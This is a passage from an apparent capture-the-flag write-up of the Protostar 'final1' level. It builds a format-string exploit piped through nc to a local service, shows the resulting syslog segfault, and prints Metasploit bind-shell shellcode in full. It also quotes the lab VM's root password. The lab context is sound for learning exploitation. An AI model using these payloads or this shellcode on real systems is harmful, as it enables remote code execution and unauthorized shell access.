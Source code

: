 I started tinkering, and decided to try having it login a second time, repeating the "login" command: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%15\$n"."%16\$n"."%17\$n"."%18\$n"."\nlogin B\nlogin TEST2\n"' | nc localhost 2994
```

In the syslog, this showed: 

```
Feb  4 23:37:49 protostar final1: Login from 127.0.0.1:36773 as [X#034¡#004#010#035¡#004#010#036¡#004#010#037¡#004#010] with password [B]
Feb  4 23:37:49 protostar kernel: [984582.054370] final1[24813]: segfault at 30303030 ip 30303030 sp bffff9fc error 4
```

There we go, we have a segfault, which should have dumped a core for us to debug.  This is convenient, since if the overwrite of "syslog()" doesn't happen until the second login attempt, we'll need to know where "TEST2" was in memory, to inject shellcode.  NOTE: To debug in gdb, you will have to use the root login.  Per http://exploit-exercises.com/protostar, "For debugging the final levels, you can log in as root with password "godmode" (without the quotes)". 

This also made me remember, that since we are going to put shellcode in where "TEST2" is, the stack address will change, since the shellcode will probably be more than 5 characters long.  So this needs to be done again with a proper length shellcode.  That means the first step towards getting this, should be generating some shellcode.  I connected to a machine with the [Metasploit Framework](http://www.metasploit.com) installed, and generated some: 

```
mandreko@li225-134:~$ msfpayload linux/x86/shell_bind_tcp c
/*
* linux/x86/shell_bind_tcp - 78 bytes
* http://www.metasploit.com
* VERBOSE=false, LPORT=4444, RHOST=, PrependSetresuid=false,
* PrependSetreuid=false, PrependSetuid=false,
* PrependChrootBreak=false, AppendExit=false,
* InitialAutoRunScript=, AutoRunScript=
*/
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

I wired up a new string to send to the program, using the username of the exploit format string for the first username, and a "B" for the password.  The second login attempt would set the username to "X", as to not trigger the format string again, and a password containing a fake shellcode, of 78 "A"s. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%15\$n"."%16\$n"."%17\$n"."%18\$n"."\nlogin "."B"x120 ."username X\nlogin "."A"x78 ."\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```
